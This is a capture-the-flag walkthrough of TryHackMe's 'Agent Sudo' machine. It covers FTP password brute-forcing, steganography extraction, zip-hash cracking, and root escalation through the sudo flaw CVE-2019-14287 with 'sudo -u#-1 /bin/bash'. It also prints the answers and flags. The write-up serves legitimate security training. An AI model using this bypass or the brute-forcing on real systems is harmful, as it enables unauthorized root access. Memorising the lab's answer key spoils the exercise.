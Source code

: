 # Agent Sudo

> Platform: TryHackMe
>
> Created by: DesKel
>
> Difficulty: Easy

## Reconnaisance & Enumeration

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA agentsudo
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:

![img](portopen.png)

<details>
<summary><b>Question: How many open ports?</b></summary>
<b>Answer: 3</b>
</details><br>

Based on the page, it says that we need to **change the user-agent** with our **codename** to access the site.

<details>
<summary><b>Question: How you redirect yourself to a secret page?</b></summary>
<b>Answer: user-agent</b>
</details><br>

For this, I just try to **edit and resend** the request from the **Firefox Developer Tools**. In the **Network tab**, we need to **change the User-Agent** with **alphabets from A-Z** as the page already given us hint, which the **agent codename is in alphabets**.

![img](agentc.png)

<details>
<summary><b>Question: What is the agent name?</b></summary>
<b>Answer: chris</b>
</details><br>

## Exploitation

Then, it says that the agent that we found have weak password. I try to **crack the password** of the agent for the **FTP server**.

![img](hydra.png)

<details>
<summary><b>Question: FTP password</b></summary>
<b>Answer: crystal</b>
</details><br>

Then, we know that there is FTP Server which can be connect to with username and password retrieved. Then, try to retrieve the files by using the **"get"** command:
```bash
$ ftp ftp@<TARGET-IP>

ftp> ls
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.


ftp> get To_agentJ.txt

ftp> get cute-alien.jpg

ftp> get cutie.png
```

![img](getfiles.png)

So now, let's try to read the files in our terminal.

![img](readfiles.png)

Based on the .txt file, we need to try use our steganography skills to get the password. First, try to use binwalk for the picture.
```bash
$ binwalk cutie.png
```

![img](binwalk.png)

There's the other .txt file that we need to recover. To extract the Zip file, we need to use binwalk with -e which will extract the file inside the picture.
```bash
$ binwalk -e cutie.png
```

![img](binwalke.png)

Now, let's try check the extracted information. There will be our .zip file located in the newly created directory. However, we need to have a password to access the .zip file. For this, I use zip2john to crack it.
```bash
$ zip2john 8702.zip > zip.hash

$ john zip.hash
alien
```

<details>
<summary><b>Question: Zip file password</b></summary>
<b>Answer: alien</b>
</details><br>

Let's try to extract the .zip file using the password that we have cracked and read the .txt file.
```bash
$ 7z x 8702.zip

$ cat To_agentR.txt 
```

![img](agentr.png)

From the .txt file, I suspect it is a base64 encoded word. Try to decode it:
```bash
$ echo "QXJlYTUx" | base64 --decode
Area51
```

<details>
<summary><b>Question: steg password</b></summary>
<b>Answer: Area51</b>
</details><br>

From the question that we recently answered, I suspect that we might need to use steghide to the other picture using the password we just retrieved.
```bash
$ steghide info cute-alien.jpg
```

![img](steghide.png)

Yeah, it is confirmed that we need to retrieved the message.txt file from it. To retrieve it just use "extract" with "sf" following the filename at the end and read the message.txt:
```bash
$ steghide extract sf cute-alien.jpg

$ cat message.txt
```

![img](message.png)

<details>
<summary><b>Question: Who is the other agent (in full name)?</b></summary>
<b>Answer: james</b>
</details><br>

<details>
<summary><b>Question: SSH password</b></summary>
<b>Answer: hackerrules!</b>
</details><br>

Now we got the password already, we can just use it to SSH to the server and get the user flag.
```bash
$ ssh <username>@<TARGET-IP>
```

![img](userflag.png)

Nice, now we cat get the user.txt:
```bash
$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

## 🏳️Flag: user_flag.txt
>**b03d975e8c92a7c04146cfa7a5a313c7**

Next, we need to know the incident of the image in the server. Firstly, from our device, we need to retrieve the picture from the server first:
```bash
$ scp <username>@<TARGET-IP>:Alien_autopsy.jpg /PATH/TO/YOUR/DIRECTORY
```

From the image retrieved, we need to reverse search the image. I use the Google Image search by image upload feature.

<details>
<summary><b>Question: What is the incident of the photo called?</b></summary>
<b>Answer: Roswell alien autopsy</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to get to root.

First we try to check with the sudo permission first:
```bash
$ sudo -l
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Now, we need to find how can we exploit this. Based on the questions, it says that it has a CVE on it. Let's find the CVE.

<details>
<summary><b>Question: CVE number for the escalation 

(Format: CVE-xxxx-xxxx)</b></summary>
<b>Answer: CVE-2019-14287</b>
</details><br>

Then, let's search from exploit-db for the [CVE PoC](https://www.exploit-db.com/exploits/47502).

```bash
$ sudo -u#-1 /bin/bash

$ whoami
root
```

Now, we need to read the **"root.txt"** file to complete this machine.

![img](rootflag.png)

## 🏳️Flag: root.txt
>**b53a02f55b57d4439e3341834d70c062**

<details>
<summary><b>Question: (Bonus) Who is Agent R?</b></summary>
<b>Answer: DesKel</b>
</details><br>